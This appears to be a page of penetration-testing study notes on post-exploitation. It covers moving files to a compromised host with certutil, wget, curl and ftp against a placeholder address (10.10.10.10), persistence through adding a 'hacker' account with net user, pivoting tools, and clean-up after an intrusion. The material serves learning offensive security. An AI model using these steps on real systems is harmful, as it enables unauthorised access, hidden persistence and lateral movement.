    To download a file from a server, use the following command:

   `certutil.exe -urlcache -f http://10.10.10.10/file.txt file.txt`

   Here, `http://10.10.10.10` is the address of the server from which the file needs to be downloaded.

   For linux:

   To start a simple HTTP server using Python on port 80, use:

   `python -m http.server 80`

   This command allows for easy file transfer over HTTP.

   To download files, use either:

   `wget http://10.10.10.10/file.txt`
   `curl http://10.10.10.10/file.txt`

   To start an FTP server using Python's `pyftpdlib` module on port 21, use:

   `python -m pyftpdlib 21`

   This server can be used to transfer files to and from an attacker machine or any other system.

   To connect to the FTP server running on 10.10.10.10, use:

   `ftp 10.10.10.10`

   IT uses the FTP client to connect to ftp server running on `10.10.10.10`

   For Browser,

   I can navigate directly to file. Like `http://10.10.10.10/file.txt` can be used.

2. Maintaining access

   To maintain persistent access even if the user's computer is shut down, it is likely to lose the shell. One of great way to make persistent access is to add a user. Although adding a new user can be noticeable, it is a safe way to maintain access.

   For example,

   `net user hacker password123 /add`

   Using persistence scripts with Metasploit can be dangerous because it essentially leaves an open port for you to connect to, which might be easily detected.

3. Pivoting

   In post-exploitation, pivoting is a technique used to extend access from a compromised machine (the initial foothold) to other machines or networks that are not directly accessible from the attacker's original entry point.

   `proxychain`, `sshuttle`, and `chisel` can be used.

4. Cleaning up

   I have to make the system/network as it was when I entered it.

   - Remove executables, scripts, and added files

   - Remove malware, rootkits, and added user accounts

   - Set settings back to original configurations
